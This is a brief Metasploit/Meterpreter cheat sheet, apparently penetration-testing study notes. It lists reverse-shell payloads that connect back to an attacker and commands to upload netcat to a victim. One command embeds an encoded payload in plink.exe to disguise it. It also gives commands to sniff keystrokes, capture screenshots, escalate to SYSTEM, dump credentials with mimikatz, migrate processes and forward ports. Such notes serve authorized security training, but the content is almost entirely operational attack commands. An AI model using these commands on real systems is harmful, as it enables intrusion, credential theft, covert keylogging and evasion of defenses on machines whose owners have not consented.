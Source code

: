 
### Exploit Modules

### Staged vs Non-Staged Payloads

- `windows/shell_reverse_tcp` - Connect back to attacker and spawn a command shell
- `windows/shell/reverse_tcp` - Connect back to attacker, Spawn cmd shell (staged)
  - Useful, for example, if the vulnerability you need to exploit doesn't have enough buffer space to hold a full payload

### Meterpreter

- `upload /usr/share/windows-resources/binaries/nc.exe c:\\Users\\tidus`
- `download c:\\Windows\\system32\\calc.exe /tmp/calc.exe`
- `shell` get the shell

### Other notes

- `generate -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-resources/binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe` embedding the payload in plink.exe from within msfconsole
- Use the framework `multi/handler` to catch standard reverse shells
  - Works for all single and multi-stage payloads
  - Specify the incoming payload type

### Post-Exploitation

```
screenshot                take a screenshot of the compromised host desktop
keyscan_start             start the keystroke sniffer
keyscan_dump              dump captured keystrokes
keyscan_stop              stop the keystroke sniffer
```

**Migrate your meterpreter process**
- `ps` view all running processes and then pick one
- `migrate <PID>` migrate the process to a target PID

**Use mimikatz from meterpreter**
- `load kiwi` run the extension kiwi
- `getsystem` acquire SYSTEM privileges
- `creds_msv` dump the system credentials

**Port forwarding**
- `meterpreter> portfwd -h`
  - Example `portfwd add -l 3389 -p 3389 -r 192.168.1.121`


## Others

**For a temporary server**
- `python -m SimpleHTTPServer 7331`
- `python3 -m http.server 7331`
- `php -S 0.0.0.0:8000`
- `ruby -run -e httpd . -p 9000`
- `busybox httpd -f -p 10000`
